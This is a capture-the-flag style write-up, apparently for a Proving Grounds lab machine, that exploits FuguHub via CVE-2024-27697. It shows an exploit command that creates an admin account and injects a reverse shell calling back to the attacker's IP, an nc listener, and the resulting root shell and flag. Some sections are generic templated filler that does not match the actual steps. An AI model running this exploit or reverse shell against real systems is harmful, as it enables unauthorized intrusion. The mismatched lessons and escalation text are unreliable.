

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | Web application and exposed network services |
| Primary Entry Vector      | Web RCE (CVE-2024-27697) |
| Privilege Escalation Path | Local enumeration -> misconfiguration abuse -> root |

## Credentials

- `admin:password`

## Reconnaissance

---
💡 Why this works  
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

## Initial Foothold

---

*Caption: Screenshot captured during this stage of the assessment.*

https://github.com/SanjinDedic/FuguHub-8.4-Authenticated-RCE-CVE-2024-27697

*Caption: Screenshot captured during this stage of the assessment.*


*Caption: Screenshot captured during this stage of the assessment.*

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
python3 exploit.py -r $ip -rp 8082 -l 192.168.45.180 -p 80
```

```bash

❌[1:04][CPU:19][MEM:61][TUN0:192.168.45.180][...icated-RCE-CVE-2024-27697]
🐉 > python3 exploit.py -r $ip -rp 8082 -l 192.168.45.180 -p 80
[*] Checking for admin user...
[+] No admin user exists yet, creating account with admin:password
[+] User created!
[+] Logging in...
[+] Success! Injecting the reverse shell...
[+] Successfully injected the reverse shell into the About page.
[+] Triggering the reverse shell, check your listener...

```

💡 Why this works  
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
rlwrap -cAri nc -lvnp 80
```

```bash
❌[1:04][CPU:12][MEM:62][TUN0:192.168.45.180][...4.OSCP/Proving_Ground/Hub]
🐉 > rlwrap -cAri nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.104.25] 52508
id
uid=0(root) gid=0(root) groups=0(root)
ls -la
total 3608
drwxr-xr-x 10 root   root      4096 Feb  4 11:16 .
drwxr-xr-x  3 root   root      4096 Jun 13  2023 ..
drwxr-xr-x  2 offsec offsec    4096 Nov  9  2015 applications
-rw-r--r--  1 root   root       179 Jun 13  2023 bd.dat
-rw-r--r--  1 offsec offsec      56 Jun 13  2023 bdd.conf
drwxr-x---  3 root   root      4096 Jun 13  2023 cache
drwxr-xr-x  5 offsec offsec    4096 Jun 13  2023 cmsdocs
drwxr-xr-x  2 offsec offsec    4096 Feb  4 11:16 data
-rw-r--r--  1 root   root       164 Feb  4 11:16 dbcfg.dat
drwxr-xr-x  2 offsec offsec    4096 Apr 30  2014 disk
-rw-r--r--  1 root   root       135 Feb  4 11:16 drvcnstr.dat
-rw-r--r--  1 root   root        33 Feb  4 11:16 emails.dat
-rwxr-xr-x  1 offsec offsec 2399312 Nov  3  2021 FuguHub
-rwxr-xr-x  1 offsec offsec     220 Nov  3  2021 FuguHub.lua
-rw-r--r--  1 root   root   1188104 Jun 13  2023 FuguHub.zip
drwxr-xr-x  2 offsec offsec    4096 Sep 28  2016 InstallDaemon
-rw-r--r--  1 offsec offsec      87 Nov  3  2021 LICENSE.txt
-rwxr-xr-x  1 offsec offsec   18730 Nov  3  2021 readme.txt
-rw-r--r--  1 root   root       794 Feb  4 11:16 roles.dat
drwxr-xr-x  2 offsec offsec    4096 Apr 30  2014 themes
drwxr-x---  2 root   root      4096 Mar  4  2025 trace
-rw-r--r--  1 root   root        78 Feb  4 11:16 tuncnstr.dat
-rw-r--r--  1 root   root       464 Feb  4 11:16 user.dat
cat /root/proof.txt
b55325d306224b739127b4a80d09c171

```

💡 Why this works  
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Validate framework debug mode and error exposure in production-like environments.
- Restrict file permissions on scripts and binaries executed by privileged users or schedulers.
- Harden sudo policies to avoid wildcard command expansion and scriptable privileged tools.
- Treat exposed credentials and environment files as critical secrets.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- CVE-2024-27697: https://nvd.nist.gov/vuln/detail/CVE-2024-27697
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- GTFOBins: https://gtfobins.org/
- HackTricks Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
